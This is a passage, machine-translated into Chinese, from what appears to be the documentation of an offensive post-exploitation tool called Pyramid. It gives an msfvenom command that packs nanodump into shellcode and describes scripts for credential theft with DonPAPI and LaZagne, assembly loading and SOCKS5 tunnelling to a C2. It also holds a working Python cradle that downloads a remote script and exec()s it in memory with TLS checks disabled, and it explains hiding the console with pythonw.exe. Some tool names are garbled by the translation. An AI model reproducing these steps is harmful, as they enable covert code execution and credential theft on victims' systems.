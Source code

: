 `**msfvenom -p generic/custom PAYLOADFILE=nanodump.x64.bin -f python > sc_nanodump.txt**`

然后将其粘贴到 shellcode 变量内的基本脚本中。

*   **基础-隧道-注入比**
    *   在脚本的上部插入 SSH 服务器、本地端口转发详细信息和 HTTPS 凭据，并使用您首选的外壳代码 stager 修改 sc 变量。记住使用 SSH 本地端口转发您的流量，因此 stager 应该将 127.0.0.1 作为 C2 服务器，将 SSH 侦听端口作为 C2 端口。
*   **base-DonPAPI.py**
    *   在脚本的上半部分插入广告细节和 HTTPS 凭证。
*   **基地拉齐奥. py**
    *   在脚本的上半部分插入 HTTPS 凭证，并根据需要更改 lazagne 模块。
*   **base-clr.py**
    *   在要加载的文件的脚本和程序集字节的上部插入 HTTPS 凭据。
*   **base-tunnel-socks5.py**
    *   在脚本的上部插入参数。

#### 解压缩嵌入式包并在目标上执行下载支架

一旦金字塔服务器正在运行，基本脚本准备就绪，您可以从 python.exe 执行下载摇篮。Python 下载平台可以简单到:

```
import urllib.request
import base64
import ssl

gcontext = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
gcontext.check_hostname = False
gcontext.verify_mode = ssl.CERT_NONE
request = urllib.request.Request('https://myIP/base-bof.py')
base64string = base64.b64encode(bytes('%s:%s' % ('testuser', 'Sup3rP4ss!'),'ascii'))
request.add_header("Authorization", "Basic %s" % base64string.decode('utf-8'))
result = urllib.request.urlopen(request, context=gcontext)
payload = result.read()
exec(payload)
```

请记住，urllib 是一个可嵌入的包原生 Python 模块，因此您不需要为这个摇篮安装额外的依赖项。下载的 python“基本”脚本将在内存中导入依赖项，并在 python.exe 进程中执行其功能。

#### 执行金字塔时没有可视提示

要在不显示 python.exe 提示的情况下执行金字塔，您可以利用 pythonw.exe，它在执行时不会打开控制台窗口，并且包含在同一个 Windows 嵌入式包中。下图举例说明了 pythonw.exe 在远程计算机上执行 base-tunnel-socks5.py 而不打开 python.exe 控制台窗口的用法。

![](img//4c6d363cb02acecf5e4f08b2366e56b2.png)
